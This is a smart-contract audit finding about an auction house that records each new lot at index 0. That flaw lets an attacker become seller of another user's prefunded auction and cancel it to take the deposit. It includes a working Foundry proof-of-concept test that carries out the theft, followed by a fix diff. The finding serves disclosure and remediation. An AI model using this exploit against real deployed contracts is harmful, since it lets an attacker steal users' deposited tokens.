 Orbiting Opaque Kestrel

high

# Malicious user can overtake a prefunded auction and steal the deposited funds

## Summary
In the auction house whenever a new auction (lot) is created, its details are recorded at the 0th index in the `lotRouting` mapping. This allows for an attacker to create an auction right after an honest user and take over their auction, allowing them to steal funds in the case of a prefunded auction.

## Vulnerability Detail
When a new auction is created via [AuctionHouse#auction()](https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L160-L164), it's routing details are recorded directly in storage at `lotRouting[lotId]` where `lotId` is the return value of the `auction()` function itself. Since the return value is declared as a variable at the function signature level, it is initialized with the value of `0`.

This means that when the `routing` [storage variable is declared](https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L174) (`Routing storage routing = lotRouting[lotId];`) it will always point to `lotRouting[0]` as the value of `lotId` is set a bit later in the `auction()` function to the correct index. This itself leads to the issue that an honest user can create a prefunded auction and an attacker can then come in, create a new auction themselves that is not prefunded and be immediately entitled to the honest user's prefunded funds by cancelling the auction they've just created as they're set as the `seller` of the lot at `lotRouting[0]`.

This attack is also possible because the `funding` attribute of a lot is only set if an auction is specified to be prefunded in its parameters at creation.
## Impact
The following POC demonstrates how an attacker can overtake an honest user's auction and steal the funds they've pre-deposited. The attacker only needs to ensure the base token of the malicious auction they are creating is the same as the one of the auction of the honest user. Once that's done, the attacker only needs to cancel the auction and the funds will be transferred to them.

To run the POC just create a file `AuctionHouseTest.t.sol` somewhere under the `./moonraker/test` directory, add `src=/src/` to **remappings.txt** and run it using `forge test --match-test test_overtake_auction_and_steal_prefunded_funds`.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

// Libraries
import {Test} from "forge-std/Test.sol";
import {ERC20} from 'solmate/tokens/ERC20.sol';

import 'src/modules/Modules.sol';
import {Auction} from 'src/modules/Auction.sol';

import {AuctionHouse} from 'src/AuctionHouse.sol';
import {FixedPriceAuctionModule} from 'src/modules/auctions/FPAM.sol';

contract AuctionHouseTest is Test {
  AuctionHouse public auctionHouse;
  FixedPriceAuctionModule public fixedPriceAuctionModule;

  address public OWNER = makeAddr('Owner');
  address public PROTOCOL = makeAddr('Protocol');
  address public PERMIT2 = makeAddr('Permit 2');

  MockERC20 public baseToken = new MockERC20("Base", "BASE", 18);
  MockERC20 public quoteToken = new MockERC20("Quote", "QUOTE", 18);

  function setUp() public {
    vm.warp(1710965574);
    auctionHouse = new AuctionHouse(OWNER, PROTOCOL, PERMIT2);
    fixedPriceAuctionModule = new FixedPriceAuctionModule(address(auctionHouse));

    vm.prank(OWNER);
    auctionHouse.installModule(fixedPriceAuctionModule);
  }

  function test_overtake_auction_and_steal_prefunded_funds() public {
    // Step 1
    uint256 PREFUNDED_AMOUNT = 1_000e18;
    address USER = makeAddr('User');
    vm.startPrank(USER);
    baseToken.mint(PREFUNDED_AMOUNT);
    baseToken.approve(address(auctionHouse), PREFUNDED_AMOUNT);

    AuctionHouse.RoutingParams memory routingParams;
    routingParams.auctionType = keycodeFromVeecode(fixedPriceAuctionModule.VEECODE());
    routingParams.baseToken = baseToken;
    routingParams.quoteToken = quoteToken;
    routingParams.prefunded = true;

    Auction.AuctionParams memory auctionParams;
    auctionParams.start = uint48(block.timestamp + 1 weeks);
    auctionParams.duration = 5 days;
    auctionParams.capacity = uint96(PREFUNDED_AMOUNT);
    auctionParams.implParams =
      abi.encode(FixedPriceAuctionModule.FixedPriceParams({price: 1e18, maxPayoutPercent: 100_000}));

    auctionHouse.auction(routingParams, auctionParams, "");

    // Step 2
    address ATTACKER = makeAddr('Attacker');
    vm.startPrank(ATTACKER);

    routingParams.prefunded = false;
    auctionHouse.auction(routingParams, auctionParams, "");
	
    // ATTACKER is now the seller of the lot at lotRouting[0]; the lot's funding remains the same
    auctionHouse.cancel(0, "");

    assertEq(baseToken.balanceOf(ATTACKER), PREFUNDED_AMOUNT);
    assertEq(baseToken.balanceOf(USER), 0);
  }
}

contract MockERC20 is ERC20 {
    constructor(
        string memory _name,
        string memory _symbol,
        uint8 _decimals
    ) ERC20(_name, _symbol, _decimals) {}

    function mint(uint256 amount) public {
      _mint(msg.sender, amount);
    }
}
```
## Code Snippet
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L160-L164
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L174
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L194
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L211-L212
## Tool used
Manual Review
Foundry Forge

## Recommendation
```diff
diff --git a/moonraker/src/bases/Auctioneer.sol b/moonraker/src/bases/Auctioneer.sol
index a77585b..48c39d5 100644
--- a/moonraker/src/bases/Auctioneer.sol
+++ b/moonraker/src/bases/Auctioneer.sol
@@ -171,6 +171,9 @@ abstract contract Auctioneer is WithModules, ReentrancyGuard {
             revert InvalidParams();
         }
 
+        // Increment lot count and get ID
+        lotId = lotCounter++;
+
         Routing storage routing = lotRouting[lotId];
 
         bool requiresPrefunding;
@@ -190,9 +193,6 @@ abstract contract Auctioneer is WithModules, ReentrancyGuard {
                     || baseTokenDecimals > 18 || quoteTokenDecimals < 6 || quoteTokenDecimals > 18
             ) revert InvalidParams();
 
-            // Increment lot count and get ID
-            lotId = lotCounter++;
-
             // Call module auction function to store implementation-specific data
             (lotCapacity) =
                 auctionModule.auction(lotId, params_, quoteTokenDecimals, baseTokenDecimals);
```
